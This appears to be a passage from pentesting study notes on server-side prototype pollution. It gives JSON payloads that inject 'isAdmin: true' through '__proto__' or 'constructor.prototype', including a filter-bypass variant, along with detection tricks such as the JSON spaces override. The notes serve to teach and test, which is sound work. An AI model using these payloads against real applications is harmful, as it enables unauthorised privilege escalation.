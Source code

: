 
* Craft an Exploit:

    * Example payload:

```json
"__proto__": {
    "isAdmin":true
}
```

* In the response, if you see the following it suggests that the "User" object did not have its own "isAdmin“ property, and instead inherited from the polluted prototype.

    * Example response:

```json
{
"username":"test",
"firstname":"test",
"isAdmin":true
}
```

* Other scenarios:

    * The application may be performing some filtering on the input, one way to bypass it is by using the constructor:

```json
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```



<br><br>


### __Detecting Prototype Pollution without Polluted Property Reflection__

* There are 3 main techniques:

    * Status code override

    * JSON spaces override

    * Charset override

* https://portswigger.net/web-security/prototype-pollution/server-side#detecting-server-side-prototype-pollution-without-polluted-property-reflection

* Identify prototype pollution source:

    * JSON spaces technique:

```json
"__proto__":{
	"json spaces":10
}
```

